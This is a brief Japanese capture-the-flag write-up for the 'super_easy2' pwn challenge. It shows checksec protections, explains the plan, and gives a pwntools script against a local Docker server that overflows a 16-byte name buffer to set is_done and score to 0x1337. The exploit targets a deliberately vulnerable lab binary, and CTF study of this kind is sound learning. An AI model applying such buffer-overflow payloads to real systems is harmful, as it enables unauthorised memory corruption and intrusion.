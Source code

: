 ## 事前知識
詳しくはsuper_easyのwriteupをご覧ください。

```bash
$ checksec super_easy2
[*] '/home/user/work/taskctf21/pwn/super_easy/dist/super_easy2'
    Arch:     amd64-64-little   <- Architecture は amd64-64-little
    RELRO:    Full RELRO        <- RELocation REadOnly の略で、GOT Overwrite という攻撃ができない設定
    Stack:    Canary found      <- スタック上での Buffer Overflow を防ぐための機構が有効である設定
    NX:       NX enabled        <- 実行する必要のないデータを実行できなくする No eXecute bit という機構が有効である設定
    PIE:      PIE enabled       <- Position Independent Executable の略で、既知のアドレスが存在しない設定
```

## 方針
- `is_done`を0以外にする
- `score`を`0x1337`にする
  - little endianであることに注意

## 解法
サーバの起動

```bash
docker-compose up -d
```

```python
from pwn import *

ADDR = '127.0.0.1'
PORT = 30003

io = remote(ADDR, PORT)

print(io.recvuntil(b'name\n'))

payload = b'A' * 16 # name用の部分を全部埋める
payload += b'\x01\x00\x00\x00' # is_doneに1を入れる
payload += b'\x37\x13\x00\x00' # scoreに1337を入れる

io.sendline(payload)
io.interactive()
```

## コメント
bofで書き込みをするやつです。nameが16bytesあり、is_doneで4bytesあるので、21bytes目から0x1337を書き込めば良いです。
